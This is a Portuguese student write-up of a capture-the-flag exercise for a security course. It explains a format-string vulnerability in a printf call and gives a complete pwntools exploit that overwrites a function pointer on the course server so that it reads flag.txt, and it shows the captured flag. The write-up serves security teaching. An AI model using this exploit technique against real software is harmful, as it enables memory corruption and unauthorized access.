

## CTF WEEK6

Perguntas

1) Existe algum ficheiro que é aberto e lido pelo programa?
Sim, o ficheiro que é aberto é o rules.txt.
2) Existe alguma forma de controlar o ficheiro que é aberto?
Sim, fazendo com que o ponteiro da função fun aponte sempre para readtxt, e que esta função abra o ficheiro que passarmos como argumento.
3) Existe alguma format string? Se sim, em que é vulnerável e o que podes fazer?
Sim, existe claramente no **print(buffer)**, porque passa logo o buffer como argumento, podemos usar specifiers %x ou %s para ler certos valores da stack, por exemplo.


**Objetivo encontrar a flag do servidor, através de um format string attack**


- Novamente como no ctf anterior, percebemos que a função readtxt (0x080497a5) ia ser a função que iamos precisar de colocar a ser apontada, e que esta função ia ter de ler o conteúdo do ficheiro flag.txt

- Seguidamente percebemos que aquele endereço dado pela Hint ia ser necessário, portanto arranjámos forma de o ler e colocar numa variável **targer_adress**, usámos ainda uma função da pwn tools para calcular o offset necessário para controlar os argumentos da pilha.

- Com toda esta informação, criámos o payload, fazer com que o target_adress passe a apontar para a função readtxt, que vai ler e dar print à flag.

**Exploit**

```python
#!/usr/bin/python3
from pwn import *
import re

#Configuração do contexto e processo
context(arch='i386', log_level='info')

#Função para enviar o payload e receber resposta
def exec_fmt(payload):
    r = remote('ctf-fsi.fe.up.pt', 4005)
    r.sendline(payload)
    response = r.recvall()
    r.close()
    return response

#Conectar ao servidor remoto para receber o endereço
r = remote('ctf-fsi.fe.up.pt', 4005)
output = r.recvuntil(b"flag:\n")
print("Output recebido:", output)

x = re.search(r"hint: ([a-f0-9]{8})", output.decode("utf-8"))
if x:
    target_adress = int(x.group(1), 16)
    print(f"Endereço obtido: {target_adress}:{hex(target_adress)}")

    # Definir o endereço da função alvo readtxt
    addr_readtxt = 0x080497a5

    flag = b'./flag**'
    # Obter o offset automaticamente usando FmtStr
    autofmt = FmtStr(exec_fmt)
    offset = autofmt.offset  # Este será o offset identificado

    # Construir o payload com fmtstr_payload usando o offset correto
    payload = flag + fmtstr_payload(offset + int(len(flag) / 4), {target_adress: addr_readtxt}, numbwritten=len(flag))

    # Enviar o payload para o programa principal e capturar a saída
    r.sendline(payload)
    buf = r.recvall().decode(errors="backslashreplace")
    print(buf)
else:
    print("Erro a obter endereço")
r.close()

```


- Ao correr este exploit, conseguimos a flag necessária,flag{L34k1ng_Fl4g_0ff_Th3_St4ck_44789C2D}




